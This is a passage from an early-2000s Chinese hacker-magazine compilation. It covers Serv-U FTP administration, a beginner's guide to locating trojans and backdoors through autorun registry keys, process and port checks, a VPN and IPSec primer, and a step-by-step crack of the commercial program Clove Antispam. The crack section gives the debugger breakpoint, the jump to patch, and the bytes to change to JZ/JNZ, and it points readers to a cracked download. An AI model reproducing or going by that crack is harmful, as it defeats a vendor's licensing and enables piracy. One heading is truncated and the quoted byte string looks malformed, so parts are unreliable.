接下来，问你是否创建一个帐户，该帐户和匿名帐户不同，是需要用户名和密码才能登录的；在这里，我就跳过这一步，不创建用户帐户。

当以上设置都完成后，在本地机器上的 FTP 服务器就创建完成了（图 10）。


图 10

## 三、Serv-U 管理器

### “Local Server”（本地服务器）属性

- 1. Local Server（本地服务器）：此处可设置是否自动开启 FTP 服务以及手动开启或停止 FTP 服务等。
- 2. License（许可证）：共享版此项无内容。
- 3. Settings（设置）：
  - 1. General/Max. speed：可设置最大传输速率（kb/s）。
  - 2. General/Max. no. of users：可设置连接到本服务器的最多用户数。
  - 3. General 的其他项目均与保持服务器的安全性有关。
- 4. Activity（活动状态）：
  - （1）Users（用户）：显示当前登录的用户 IP 地址等资料及当前工作状态，建议选中“Auto reload”（自动刷新）。如果选中某个用户，单击右键，再选“Kill User”，即可将它从服务器中踢出去。
  - （2）Blocked IPs（被挡住的 IP）：此处用来暂时禁止某些 IP 访问本系统。单击工具栏的“+”即可增加被暂时禁止的 IP 地址及禁止登录的总时间（从增加之后开始计算）。列表中可以看见被禁止的 IP 地址及其对应的计算机的完整的域名和离解禁尚有多少时间（以秒为单位）等。在列表中单击右键即可以选择删除已禁止的 IP 地址。
  - （3）Session Log（系统日志）：记录所有登录（或试图登录）到本机的操作痕迹及错误信息等。

### “Domains”（域名）属性

- 1. ftp.bbc.com（即选中的 FTP 服务器名）：此处可修改相应域名、IP 地址及端口号等。
- 2. Settings（设置）：完全允许或禁止登录的 IP 地址等。
  - 1. General/Max no. of Users（最大用户数）：此处可以设置允许同时登录到本 FTP 服务器的最大用户数。
  - 2. IP Access/Deny access（拒绝）：此处可设置仅仅拒绝登录到本 FTP 服务器的计算机的 IP 地址列表。
  - 3. IP Access/Allow access（允许）：此处可设置仅仅允许登录到本 FTP 服务器时被增加 IP 地址列表。
  - 4. IP Access/Rule（规则）：此处可输入特定的 IP 地址或 IP 地址的范围。接受如“192.168.0.88”之类的单个 IP 地址；接受如“192.168.0.4-192.168.0.11”之类的 IP 地址范围；接受如“192.168.0.*”之类的通配符；接受如“192.168.0.1?”之类的单个字符的限制等多种格式。“Add”为添加，“Remove”为删除。
  - 5. Message（信息）：此处可改变一些提示性显示信息，如“Signon message file”（开始广播）、“Server offline”（服务器未工作）、“No anonymous access”（不接受匿名登录）等等。
- 3. Activity（活动状态）：
  - 1. Users（用户）：显示登录到本服务器的用户及其状态；建议选中“Auto reload”（自动刷新）。
  - 2. Domain Log（系统日志）：记录所有登录（或试图登录）到本服务器的操作痕迹及错误信息等。
- 4. Groups（组）：
  - 1. 利用 Groups（组）可以预先建立好一个或多个确定了属性（读写等）和控制权限（授予或禁止某些 IP 地址访问）的目录，以后当我们建立新的用户，需要用到这些目录时，就直接添加进去就行了，不用再进行重复设置，组的建立可以大大减轻设置工作量。
  - 2. 建立一个新组：选“Group→右键→New Group”，然后在“Group name”中输入组的名字再按“finish”（结束）即可（图 11）。


图 11

## 附录

## 黑客X档案2002-2003年合订本

（3）设置“Dir Access”（目录存取权限）：在此处选“Add”（增加）增加目标目录（可多个），然后再为它们逐个设置存取权限。本项具体设置请参见本教程后文相关内容。

（4）设置“IP Access”（IP 控制）：此项的具体设置请参见本文前列相关内容。

（5）组的复制：可以像复制文件一样复制所建立的组。选中组名，单击右键，再选“Copy Group”即可复制此组，选几次就复制几个。真是好功能！^_^

（6）使用“Group”（组）：在“Users”下选中要使用组的用户名，再点击右边面板上“Group(s)”后的图标，选择所需要的组名（可用 Ctrl 键或 Shift 键来同时选中多个组；多个组名会自动以逗号进行分隔）（图12）。


图12

## 各项说明和应用实例

- **Disable account（禁用账号）**：如果选中它，则此帐号将无法使用。
- **User name（用户名）**：此处显示并可改变该用户的登录名；修改后，左边面板的用户名也会自动作相应的改变。
- **Group(s)（组）**：如果有建立组，则此处可通过选择组来使用更多的目录。这些组中目录的属性由建立组时确定，用户在“Dir Access”中不能修改！如果组用户的主目录不在根目录（见下面第 5 项说明）所包含的目录树之内，则此组用户无法进入。
- **Password（密码）**：此项为“<<Encrypted>>”（加密）说明有密码；为保密，因此内容不予显示。如果为空白，则不需密码；如有输入任何密码均显示“<<Encrypted>>”。
- **Home directory（主目录）**：此处原则上为用户登录后的主目录；但实际上，当该用户登录后，它的根目录是哪个，还得看“General”（常用）属性中的“Lock user in home directory”（将用户锁定在其主目录中）来决定。
  - 比如此处路径为“d:\myweb”，“General”中相应项为选中，则主目录和根目录均为“d:\myweb”。
  - 再比如此处路径为“d:\myweb”，“General”中相应项为不选中，则主目录为“d:\myweb”，而根目录则为“d:\”。
  - 注意：此处可酌情修改，但不能超出“Dir Access”中“Path”所框定的范围，否则登录后你将什么也看不见！
  - 建议一般不要修改此项。
- **Notes（备注）**：此项用来标注一些说明性的文字。

（7）进入“Dir Access”，再按工具栏的刷新图标（书图标左边的那个），即可看到最后的效果（图13）。


图13

## 四、常规选项卡


图15

在这里，我们可以针对用户进行详细的设置，下面对每项进行详细讲解：

- 隐藏“隐藏”文件：选择这项后，目录中的隐藏文件将对登录该目录后的用户不可见；
- 总是允许登录：不会有时效限制，随时可以登录 FTP 服务器；
- 只允许从相同的 IP 地址登录：这是非常有用的一个选项，可以限制 FTP 客户端登录的 IP 地址的数目，可以防止一个客户端连接多人使用；
- 允许用户更改密码：就是修改密码，没什么好说的；
- 最大上传速度：限制该用户的上传速度；
- 最大下载速度：限制该用户的下载速度；
- 空闲超时：当用户连接到 FTP 服务器后，如果 N 分钟后没有任何读或是写操作的话，将会被断开，这里的设置就是这个作用；
- 任务超时：上传/下载的任务在 N 分钟内没有响应的话，将会被断开；
- 最大用户：用来限制连接 FTP 服务器的最多用户的数量；
- 登录消息文件：可以在一个文件内写上一些信息，当用户登录时就会收到该信息；
- 密码类型：在这里可以设置密码的加密类型（图16）；

另外，在“目录”项中有三项可选：列表、创建、删除；列表权限就是在登录 FTP 后，有权限查看当前的文件列表，否则的话，在登录后，眼前将是一片空白，看不到任何文件；

创建的权限就是指创建目录文件，删除就没什么好说的了。

最后，还有一个“子目录”项，下面有一个继承选项；勾选这项后，当前目录下的所有子目录和子目录下的目录（依次类推）都将继承当前目录的权限；

Account（帐号）选项（图14）。


图14


## 五、目录访问


在“文件”中，可以设置一些基本的权限：读取、写入、追加、删除、执行，各个选项没有什么好说的，只有这里的“执行”这一项，要特别小心，在选择该项的时候，也会有提示（图18）。


## 六、IP 访问


该选项卡可以用来限制或是允许某段的 IP 地址访问或是禁止访问该 FTP 服务器；

我们可以通过添加 IP 地址来达到禁止或是允许某一或是某一段 IP 地址访问该服务器的目的（如图20）。


另外，还可以屏蔽某一段的 IP 地址，例如：2.2.2.1-2.2.2.254（图21）。


另外，我们还可以使用匹配符，例如，我想屏蔽 2.2.2.1-2.2.2.254 的所有机器，还可以使用 2.2.2.* 也可以达到目的（图22）。


图22

除了这样以外，我们还可以对单字进行匹配，例如：2.2.2.12?，这样就屏蔽掉了 2.2.2.120-2.2.2.129 的所有 IP 地址；

## 七、高级设置

## 本地服务器设置（图23）


图23

在这里，可以设置管理员的管理密码、管理端口；另外，还可以停止或是运行 FTP 服务器；挂接虚拟目录来到当前的 FTP 服务的设置选项中（图24）。


图24

点选“添加”按钮，会要求输入物理路径（图25）。


图25

按要求输入物理路径，例如，你的下载目录为 F:\FTPROOT，你想把该目录下的 test 目录作为物理路径，输入：F:\ftproot\test，或是通过点击后面的图案进行手动查找；接下来，会要求输入你想要映射的路径（图26）。


图26

例如，我们想要映射到 C 盘，输入 C:\ 后点下一步；最后一步中，会要求输入映射名称（图27）。


图27

这样，我们就完成了一个虚拟目录的映射（图28）。


图28

## 修改服务器返回信息

完成后，当客户连接到 FTP 服务器上后，当点选 test 目录进入后，就会自动被转入到 FTP 服务器上的 C 盘根目录下了。

对于大部分服务器的服务来说，我们通常使用 telnet 的方式来通过返回信息判断该服务器上某个服务所使用的软件，对于 Serv-U 来说，也是可以的（图29）。


图29

为了保证安全，我们可以在消息选项中的服务器 ID 文本中进行修改（图30）。


图30

这时候，我们再来看一下 telnet 后的结果（图31）。


图31

这里已经完全看不到 Serv-U 的 banner 了。另外，除了修改 banner 以外，根据消息中提供的项目，我们还可以修改一些其他的信息。

## 记录 FTP 详细信息

我们可以转到记录选项卡中（图32）。


图32

通过这个选项，我们可以根据自己的需要对 FTP 的各种动作进行详细的记录。

## 监视用户活动

在 FTP 服务器中选择“活动”（图33）。


图33

通过这里，我们可以简单地监视用户的一些活动。

## FTP 日志

在域日志中会有详细的日志记录（图34）。


图34

在日志中，主要是记录了远程客户机的 IP 地址、登录时间、断开时间等信息。

## 远程管理 FTP 服务器

在 Serv-U 服务器上右键，选择新建服务器，这时会弹出向导对话框（图35）。


图35

按照向导的要求，键入远程 FTP 服务器的 IP 地址和端口，然后，按要求填上一个用户名和对应的密码（该用户名和密码为远程 FTP 服务器上的用户名和密码），都完成后，就会连接到对方的 FTP 服务器了（图36）。


这样，我们就可以像在自己本机上使用 FTP 一样控制远程 FTP 服务器了。

由于具体的管理方法和在本地使用相同，所以就不具体讲解了。

以上只是针对 Serv-U 的一些基础的、简单的讲解而已，只针对一些不会使用的初学者入门使用，在很多地方还是不够详尽，还请多多包涵。

## 菜鸟也谈 木马 & 后门清除

尽管现在的查毒杀毒技术不断更新，但是病毒总是能够在它被杀之前潇洒一段时间。我们这些菜鸟怎么才能在这些专杀工具出来之前逃脱木马和后门的魔掌呢？对于我们这些触网不深的菜鸟又该怎么来对付这些暂时查杀不了或者说是新的木马和后门呢？下面我就把自己平时积累的一些查毒经验和心得拿出来和大家分享。因为本人还是菜鸟一只，所以文中难免有不成熟的个人见解。如果您有好的思路和新的方法请不吝赐教。

```
[HKLM\software\microsoft\windows\currentversion\runservices]
[HKLM\software\microsoft\windows\currentversion\runservicesonce]
[HKLM\software\microsoft\windows\currentversion\run]
[HKLM\software\microsoft\windows\currentversion\runonce]
[HKCU\software\microsoft\windows\currentversion\run]
[HKCU\software\microsoft\windows\currentversion\runonce]
[HKCU\software\microsoft\windows\currentversion\runservices]
[HKLM\software\microsoft\windows\currentversion\runonceex]
```

## 一、分析思路和步骤

- 这里我就分别从新木马病毒和知名的木马病毒两种情况来给大家分析。
- 当你知道电脑里有什么病毒和木马的进程的时候，可是暂时杀毒软件杀不了。这个时候你可以到各大杀毒公司主页去看看，说不定就新推出了什么专杀工具。或者可以到 baidu.com 和 google.com 里把那些自己认为是病毒的名字或者相关的信息作为关键字来搜索，相信这里会有不少解决之道。同时你可以用下面的方法来清除。
- 当我们遇到一个新的木马或者后门的时候，我们一般会从以下几个方面查杀它：

  - 系统的常规启动项  
    常见的启动目录有：c:\windows\start menu\、c:\WINDOWS\All Users\Start Menu\  
    系统配置文件和其它的启动主要有：win.ini、system.ini、config.sys、autoexec.bat、wininit.ini、winstart.bat、autorun.inf。

    上面所提到的目录和文件都是木马和后门隐藏比较青睐的地方。如果有必要的话，大家可看看这些文件和目录有没有被加载木马和后门。

  - 注册表  
    注册表里那些木马和后门常用的应该是自启动项，也就是下面几个 run 字眼的子键。

同时对于那些为了加强自己生命力的，也会在注册表里与别的文件进行关联，具体如下：

```
[HKCR\exefile\shell\open\command] @="%1" %*
[HKCR\comfile\shell\open\command] @="%1" %*
[HKCR\batfile\shell\open\command] @="%1" %*
[HKCR\lhtafile\shell\open\command] @="%1" %*
[HKCR\piffile\shell\open\command] @="%1" %*
[HKLM\software\classes\batfile\shell\open\command] @="%1" %*
[HKLM\software\classes\comfile\shell\open\command] @="%1" %*
[HKLM\software\classes\exefile\shell\open\command] @="%1" %*
[HKLM\software\classes\lhtafile\shell\open\command] @="%1" %*
[HKLM\software\classes\piffile\shell\open\command] @="%1" %*
```

如果你是一个注重系统备份的人，就可利用注册表的备份来比较发现出它的变化。这里我给大家推荐两款利用注册表快照来比较注册表变化的工具：regshot 和它的前辈 RegSnap。

（3）用系统的文件查找功能

笔者主要是用来应付那些喜欢创建新的文件和修改文件来隐藏自己的后门和木马。这样对于那些文件名和大小随机变化的也是个不错的选择。

（4）网络连接的分析

现在的木马和后门主要分两类：主动与外界连接和被动监听两种。这里我常用的是在 DOS 或 MS 提示符下输入命令：`netstat -an`，查看系统当前的 TCP/IP 网络连接。看有无异常的连接和端口，这样对于那些被动监听的后门和木马应该可以一目了然。至于主动向外界连接的情况，我们可以重新配置自己的防火墙，系统与外界的连接情况就可以尽收眼底了。对于插入线程则不在此列，因为插入线程后它的操作都被列入所插的进程下了。正因为这个，我最珍爱的天网也略显得力不从心了。这里有个比较特殊的问题就是针对目前比较流行的端口重用的情况，这个对我们的要求有点高了。在 NT 下我们先用 Fport 可以列出端口与进程和程序名间的关系。我们就要多注意那些一个端口对应多个应用程序的情况，之后可以再根据程序的名称和路径辅以判断。Win98 下我只能用天网了，根据应用程序下连接的情况判断，不过似乎显得有点烦琐！用于网络连接管理的工具我也推荐两款吧。Windows 98 下反黑精英是个不错的选择。基于 Windows NT 结构的选择就多了，我常用的是 Fport，还可以关闭相关的连接。

最后注意的一点，利用 ICMP 数据包的木马和后门。这个我们可以直接在防火墙或者 TCP/IP 策略上设置为过滤 ICMP 数据包。


大家可看到，Win98 和 Win2k 下也有区别的哦！因为 Win2k 下在 telnet 的子键下也做了修改！

下面我们来看看进程方面的对比效果，图3、图4为 Win2k 的，图5、图6为 Win98 的。


（5）线程插入技术的应用对那些木马和后门穿透基于应用程序检测的防火墙起到了不可替代的作用。后门线程先注入到正常的进程（可能具有访问网络的权限）中，这样那些后门在经过防火墙的时候，因为报的是正常进程的文件名，所以可以大摇大摆地出防火墙了！那我们在这里又该怎么查呢？我在实践过程中用到了两款进程控制软件：preview（process view）和 Windows 优化大师。在 preview 中有 process tree（进程树）查看的功能。你可以把系统进程的主次一览到底。最关键的地方就是关于线程的插入问题。在 preview 中，你可以选中你要被插入线程的进程，右键菜单中的 thread 就可以显示它的线程。还有我们可以用 modules 菜单显示进程加载的模块。这样，我们可以比较正常与非正常的线程数和调用的模块（dll 文件）来综合判断。虽然这样比较麻烦，但至少是一个方向！

## 二、具体实例讲解

下面我就以最新发布的 20CN 的远程控制 pcshare2.0 beta1 版配置的客户端查毒为主线，同时配以曾风靡一时的 gwboy 中毒后生成新文件以及进程插入和反向连接，还有 svchost 的端口重用现象来分别对以上提到的分析方法和注意事项加以讲解。

- 首先要注意的是我们在测试的时候还要注意测试的步骤性！大致顺序是：
  1. 安装测试软件（防火墙/`netstat -an`，注册表监视器，进程监视器）。
  2. 启动木马程序进程。
  3. 结果分析（比较进程和线程结果，防火墙结果/`netstat -an`，新创建和修改的文件等方面）。

因为我们在前面的分析思路和步骤里，已经基本上把一些该注意的地方都提到了。下面我就用一些图的对比来说明一下吧！

运行配置文件 psnew.exe 前的系统信息：

注册表变化的地方如图1、图2。

图1 Win2k

图2 Win98


## 附录

防火墙的相关信息如图7、图8所示。

经比较，gwboy的加载和清除的注册表操作是互逆的。图11中下半部分中的“gwboy.exe”、“gwboydll.dll”是不是很起眼呀！其实，我们在配置服务器时在木马上多动点脑筋，就可躲过不少眼睛。图12是运行gwboy服务端后的新建文件。

系统文件变化：这个主要是备份注册表信息的写入。如图9。

因为psnew.exe在我们的配置文件中没有在这里做手脚，而且也没有新文件的生成。所以文件的查找和系统所开的端口和连接的情况我不多赘口舌了。下面我们再看看Win2K下运行svchost的端口使用情况（图10）。

> Modified files

- command.pif
- system.dat
- user.dat

Total positions: 3

这个是gwboy.dll插入的进程，有两个：explorer.exe和supercapture.exe，如图13。

用fport.exe可很清楚地看到结果。不过，如果你在中毒之前已经让木马和后门运行了，现在就要看看你的应用进程有什么陌生的东西没有。最好是一个一个地分析，因为现在给木马和后门取名字的艺术已经今非昔比了。家伙们有些菜鸟反而把正常的进程误认为木马也是常有的事。图11中就是gwboy运行后往注册表里变动的地方。

说到进程的问题，大家可能对风雪snow会记忆犹新，因为我们在终止它的双进程时也是颇费脑筋。因为木马有两个进程相互保护着，而我们一般在用进程管理器的时候一次只能关闭一个进程。所以想搞定它也需要一定的技巧。不过我们在preview的帮助下可以试着先用结束进程树来终止一个进程，然后再终止另一个进程。这样交互一下后就可以达到终止2个进程的目的了。

其实大家也可以看到，从gwboy的运行来看，先从文件的创建等找出相关文件信息，再从注册表里找到路径和dll信息，最后查出dll插入的进程。这样反向一步步来查找后门和木马就不难了！有的时候这样的注册表操作地方可能不止一个。所以既然我们知道它的信息了，就可以扩大搜索范围。这样可以尽量搜全信息以便清除。

在这里还有一点要补充的是，不知道大家还记得我们的网络公牛NETBULL吗？为什么要提到它呢？因为执行它的服务端后除了具有自动运行功能外，主要是它可以自动绑定到别的某些可执行文件上。这个可不同于注册表里的关联，所以绑定在注册表里是找不到什么信息的。解决方法大家可以定期给自己机器里的文件做md5值记录，如果发现有netbull的迹象和文件md5值有变化则要引起大家的重视了。不过由于这些木马和后门的隐藏性、自我保护功能太强的缘故，树大了，当然要上杀毒软件的黑名单了！现在的杀毒软件几乎都可以杀它们了：）

## 三、小结

作为一只菜鸟，用上面所提到的方法自行消灭一般的木马和病毒问题应该不是很大了。不过，有的时候在分析问题中还是要把上面所提到的方法交互配合综合分析，这样可能会得到更好的结果。比如像那些关联类的木马，你就可以到注册表里去查陌生的键值。根据键值和文件名我们可以分析出木马文件的名字。好一点的话再一搜索就可以知道木马的名字、路径等信息。还可以从文件的创建和修改时间来查找后门。

## 浅谈针对压缩DLL文件的规律及

## ——记Clove Antispam的另类破解思路

前几天一家反病毒公司的朋友推荐了一款反垃圾邮件软件CloveAntispam，安装试用了一下，效果还不错，但就是只能试用30天，并且每次打开Outlook都要出现NAG窗口。我大体推测了一下，也就时间限制和NAG窗口两种保护方式，想必破解也不会很难。可是跟那位研究数据恢复技术的朋友却一直没能破解开，并问我有没有DLL的破解资料。于是我对Clove做了一番仔细研究，发现并非该软件的加密手段如何高明，而是很多刚入门朋友的思路问题，很有必要向读者朋友说明一点，破解思路是第一位的。同时，笔者也要在此和读者朋友探讨一下关于DLL压缩文件的破解技巧。DLL文件即动态链接库，将注册码的比较模块从主程序中剥离出来，并从DLL中调用，这也是目前采用较多的保护技术。

## 关于Clove Antispam的破解思路

Clove AntiSpam是一个易于使用的保护Microsoft Outlook 2000/XP/2003的反垃圾邮件软件，对于垃圾邮件的识别率据称可以达到98%以上。笔者从其产品网站（www.clove.com）下载了一套试用版，约1.8M，然后按照软件提示进行安装。安装完毕后自动启动Clove程序，这时将弹出注册提示框（如图1）。分析该注册框（见图1），既然有试用时间的显示，肯定在启动时对时间进行了判断，可以下断点GetLocalTime或者GetSystemTime分析。另外我们注意到“Register”按钮，点击进入注册码输入框，随便输入用户名和注册码后，再点击“Register”则出现如图2所示的窗口：

由此我们可以确认程序启动的时候必定要首先比较注册码是否正确，并且该注册码存放于注册文件或注册表中。这时候我们至少有两个破解思路：破解时间的限制（同时破解令人讨厌的Nags）和破解注册码的限制。由于破解注册码的限制一般可以从根本上解决问题，所以笔者采用了对注册码的破解。破解过程感觉不是很复杂，采用SoftIce动态分析法，详细过程如下：

- 1．尝试不同断点，确定有效断点：我们已经知道该程序输入注册码后将注册码存于文件或注册表中，在启动的时候再进行比较，因此我们随便输入用户名（Brygid）和注册码（4321-4321-4321-4321），这时候不要点击“Register”，启动Filemon和Regmon，在两个软件的过滤器选项中输入Outlook（Clove的线程绑定到Outlook），现在点击“Register”，并且关闭Filemon和Regmon的监视，Filemon里没有明显的变化，估计在注册表中的可能性最大，Regmon里建立了两个值，cssn和csun，键值数据呈现不规则状态，估计已经被加密，而这两个值很有可能就是注册码和注册名。根据这个判断我们可以确认需要下的断点：bpx RegQueryValueExA if *(esp->8) == 'cssn'（笔者的环境是2000虚拟机）。

- 2．分析程序流程，尝试动态修改：下断点后关闭Clove，重新启动程序，当出现Clove的启动界面几秒后，断点生效，这时进入SoftIce环境，连续按F12键12下（按到13下回到程序界面，说明关键点在第12下），此时在ShlFunc的领空下，截取部分有效代码如图3，代码窗口第一行的Call 023839EC，便是调用函数查询注册表项cssn的键值。

3．确定关键断点，准备爆破解：从上面的代码分析，在Call 023839EC后有两个地方出现跳转，按F10键到达第1处跳转JZ 023AB2F8，继续往下执行，看下面的赋值语句能不能找到我们心里一些参考信息。执行到Call 022E460C，lea eax，发现eax存放的是我们输入的注册码，根据经验，下面的代码一般是对注册码的比较，那么可以大胆判断第2处的跳转有可能就是关键断点。执行到JZ 023AB39A处，用r fl z修改跳转方向，输入g后回到Windows窗口，发现果真如我们所料，没有出现Nag窗口，这时我们再查看Clove的About（如图4），说明我们找到的关键点是正确的。由于Clove的加密比较简单，笔者猜想试用时间的判断在注册码通过后不会再比较，在BIOS调整系统时间后证实了笔者的这种猜想。

## 分析如何对压缩DLL文件进行爆破

如果想分析作者加密软件的算法，读者可根据图3的注释按F8跟踪进去分析，本文不对算法做具体说明。很多读者可能认为到这步破解就算结束了，既然那么简单，为什么我那位朋友没能破解呢？和他联系后，终于明白其中的原因。细心的读者可能发现，Clove的注册码验证没有在主程序中实现，而是在ShlFunc.dll文件中完成的，这样按照一般的思路来说，首先应该先侦测主程序有没有加壳，发现全部都是用AspPack 2.1压缩，当然就要解压缩，然后静态分析。但是这样是行不通的，首先主程序并不包含对注册码的处理，这样分析半天也没有什么结果。其次还有很重要的一个原因，DLL被解压缩后的OEP将发生变化，因此即使知道注册码的比较在ShlFunc.dll中，解压缩DLL文件后整个程序不能运行（主程序不能调用改动后的DLL？），所以只能采用笔者破解的思路，不管有没有压缩，直接进行动态分析。其实这遵循着大家可能都忽视的一个原理：不管Exe或者DLL文件采用何种方式压缩，在执行的过程中都必须在内存中进行还原，也就是说，我们在内存中看到的，是程序的实际执行代码，即压缩文件中解压后的代码。由于DLL文件在破解过程中的特殊性，结合该原理将达到事半功倍的效果。

我们再看Clove的破解，既然我们找到了关键点，那么只要在ShlFunc.dll文件中修改跳转指令就可以了。但是ShlFunc.dll是压缩的，SoftIce中的地址并不能对应，这样我们也无法找到文件的偏移地址；如果解压缩ShlFunc.dll，倒是可以让虚拟地址和偏移地址对应起来，但是DLL文件又不能被调用，那岂不是不能快速爆破了吗？答案是否定的，根据我们前面提到的内存还原原理，虽然我们看到的地址不对应，但是代码都是一样的，我们在解压缩后的文件中直接查找机器码一样可以找到跳转的准确位置。记录下JZ 023AB39A前面的几段机器码E8680FDFF84C0，用Caspr解压缩ShlFunc.dll后用UltraEdit打开，查找E8680FDFF84C0（见图5），是不是发现了跳转指令？将JZ改成JNZ，享受Clove带来的反垃圾邮件的快乐吧。

## 小结

上面的分析主要是告诉一些初学破解的朋友，破解的思路非常灵活，当一种方式使你陷入一种迷境的时候，要有魄力尝试其他的思路和方法，毕竟破解没有固定的算法可循。同时也要注意现在很多软件采用DLL的方式判断注册码，而不在主程序中，不要陷入了其中的陷阱。

附：请到华军软件园输入Clove搜索下载作者提供的汉化破解版。

## 技术攻防之景伯（Cyber）空间隧道防护篇

紫天星

## 一、VPN浅析

CyberSpace犹如黑色深邃的苍宇，含蓄地宠罩着世界的每一个角落电子信息公路。光怪陆离的数字交通线中各种信息按着预定的规则井然有序地进行传输，各种珍贵重要数据业务、个人隐私信息、公司私有信息等各类“车载”，整个空间里繁忙的光景中充满着“公开”而合理的数据流动。

随意搭接一段电话裸线、电磁波形分析仪或其他网络窃听工具，我们便可轻松掀开赛伯空间中的任何信息进行查看和修改。虽然这种方式将会受到诸如BBS发文、垃圾广告邮件和其他充斥于整个空间的废物信息干扰，然而在这些中假如被找到一小段个人隐私或者机密商业信息，那么结果将是：隐私权被侵犯、商业竞争的失利或者蒙受更大的经济损失。

于是，在公共空间中建立私有隧道的想法也应之而生，而且这种需求也随着网络经济的发展速度而变得强烈起来。美国IDC公司公布的一项测试分析中指出，“2006年全球电子商务应用软件市场将达到约170亿美元规模”，从中不难分析出企业使用电子业务的频度将在未来几年急剧增加。而运行于整个赛伯空间的企业与个人、企业与企业之间的数字联系也将需要更加强韧的安全措施。

VPN（Virtual Private Network）技术的诞生充实了安全防线一隅，其作为新生力量从设计开始便担负了赛伯空间历史发展盘点的重要角色。本文将对VPN的各个方面进行介绍，并实现几个具体实例，难度适中，适合有一定网络基础的读者和对VPN感兴趣的爱好者。

为了更加精确地解释其意义，这里我引用权威的dret.net的词汇解释：

> “VPN是一种私有网络，利用公众电话网络基础结构，通过使用隧道协议和安全程序保护私有信息。VPN有点类似于公司专用的自有系统或租用专线。其主要目标是依托共享的公众网络基础结构以低廉的费用构建专用网络的互连，其性能可与租用的私有专用线路相比。”

然而VPN的应用范围不仅只局限于公司内部的业务往来，我们可以延伸到很多惬意的工作、学习和交流环境中，诸如：足不出户的家庭办公、安全可靠的商业交往、私有秘密的网络会议和个人隐私的安全通信等。其设计思想如图一。

从环形图中，我们可以清楚认识到整个Internet网似乎成了企业和个人交流的枢纽，就像一个巨型的交换机。它把在地理位置上分布很远的离散电子环境和电子设备有机地联系为一个和谐的局域网，在基于加密协议和安全校验的机制上建立透明的各组织内部的信息交流通道。

## 一、VPN基础

### ■概念引论

图VPN原理简议

整个设计的安全着眼点便是如何在公共赛伯空间所传播的信息安全可靠。试想一下，在一个人群集聚的公众场合，你只能用清晰的声音把一个隐秘的信息传达给你的好友？使用变音调、语句暗示或字谜的方式结果总是不太理想，因为在这人群之中可能会有聪颖的耳朵会听得一清二楚。于是，绝妙的主意是同好友事先发明一种语言（如果能创造一种外星语言更妙），并且这样的语言是世界上唯一的。

根据这种思路，VPN采取了类似的手段，利用隧道（tunnel）技术把信息数据包封装进安全加密协议中，使恶意截获者无法辨识其中信息含义。而VPN网关之间则分别进行数据包的校验认证和加／解封装信息，保证信息的安全可靠性，其通信结构如图二。

**图一—VPN设计基础**

简单的字面翻译便是虚拟专用网的英文首字母缩写。然而

**图二、VPN数据传输原理**

VPN实现从端点到端点的数据传输中利用隧道技术，对其他类型的数据包和帧进行封装。封装方式是在有效信息负载添加隧道头部标识。头部信息包括了穿越赛伯空间所含的路由信息。封装发送在VPN设备之间，由数据从一端被封装、传输，到达另一端时候则进行解封装操作。

支持隧道技术的协议很多，但就VPN实现来说，其方式分为IPSEC、L2TP/PPTP的隧道模式，为了能使初学者顺利地掌握VPN的实现方式，下面的协议讨论将是必备知识。

协议的学习是相当枯燥的，因此对安全协议进行过研究的人，多少都有点轻度烦躁感，考虑到不使一些读者感到畏难情绪，这里的协议仅是粗浅的讨论，不具体到数字细节推理。

> **注意** 希望迅速配置VPN的读者可以直接跳过协议讨论部分，直接进入第三部分：“VPN具体速设”。对于不了解VPN的读者建议阅读协议论述部分，否则第三部分的VPN专有名词会将你的VPN调试带来非常之大的困惑。

> **注意** 由于实现VPN的设计思想是基于隧道技术，因此本文只对隧道模式相关安全协议操作方式进行阐述。

## 二、安全协议概要浅论

### ☆ 三层强度隧道空间

IPSec协议簇的设计为访问控制、数据完整性、源数据认证、抗重放攻击等网络安全数据传输提供了基于IP及上层协议的高质量、安全加密的结构机制。通过IPSec的安全机制，系统可以选择所需的安全协议、决定安全服务所用的算法并提供适当的加密公钥给所需服务。IPSec还可以在主机之间、主机与安全网关或安全网关之间提供强度保护。

> **注意** 这里“安全网关”的含义是实现IPSec协议的路由器或防火墙类支撑系统。

基于IPSec所建立的VPN安全机制由IPSec提供的数据传输安全服务和SA（Security Association：安全相关性）协商机制两大部分构成。然而在具体讲述实现细节之前，了解一些安全底层基础知识是非常有用的。如果没有危地马拉高原盛产的优质石料做基石，或许洪都拉斯热带雨林里精美的玛雅古庙遗迹早就坍塌崩溃，不复存在。与此类似，坚固的知识性基石对我们将大有裨益。

#### 1.1 安全相关性（SA）

整个IP安全体系的结构基础便是SA安全相关性所蕴涵的概念。如果没有SA的创造，IPSec将不会有现在的荣耀。一个SA中定义了对数据包所采取的各种安全措施，比如确认数据包发送者、发送的目的地、发送的数据类型格式等。SA所提供的安全服务取决于相关安全协议及其参数和SA所操作的模式。在基于安全管理员制定的安全策略中，SA能够在两个通信实体之间进行协议协商。SA也可通过管理员直接规定，只是这样的做法目前很少见。

SA使用三个参数进行识别：目的IP地址、安全协议标志和SPI（Security Parameter Index：安全参数索引）。目的IP地址是目标端点的IP地址，只有在目标端点才具有意义。安全协议标志是AH（51）和ESP（50）协议号。

> **注意** 关于AH和ESP是IPSec中两种数据封装机制，下面部分将有细节阐述。

SA有两种操作模式，分为传输模式和隧道模式。普通的传输模式是在原有IP包头中增加安全特性，这种简单的安全做法主要实现对TCP/UDP等高层协议的保护，而对于需要在公众宽带空间进行私有信息传输则必须采用隧道模式，因为这种方式把整个IP包作为有效负载进行安全封装，产生出一个新的数据包，使用新的IP头中的路由信息在不安全地带进行路由。相比之下，这种安全设计更引人入胜。两种模式示意如图三：

一个SA可以认为是一个单向通道，提供AH和ESP安全特性。注意，每个SA只能提供一种安全特性。假如在数据包中同时使用AH和ESP安全特性，则必须建立和维护两个SA。另外，在主机和安全网关间建立双向安全通道也需要两个SA。

| 模式 | 结构 |
|---|---|
| 传输模式 | 源IP包头 \| 安全头 \| 有效信息负载 |
| 隧道模式 | 新IP包头 \| 安全头 \| 源IP包头 \| 有效信息负载 |

图三、SA数据操作模式

> “这种场景就好比一个常见的公交系统，各种型号的SA‘公共车’沿着预定的‘单向路线’从始到终，每次运载着不同的‘乘客’。”

#### 1.2 安全数据库

在实施IPSec安全特性的两个端点里存在着两个安全相关的数据库：SPD（Security Policy Database：安全策略数据库）和SAD（Security Association Database：安全关联数据库）。安全管理员可以指定一系列安全规则来满足所有进出此端点IP数据包的安全需要。这些安全策略都存储于SPD数据库中，根据要求对IP包的处理和构造对应的SA；而所有的SA和其所带参数在SAD数据库中进行注册。

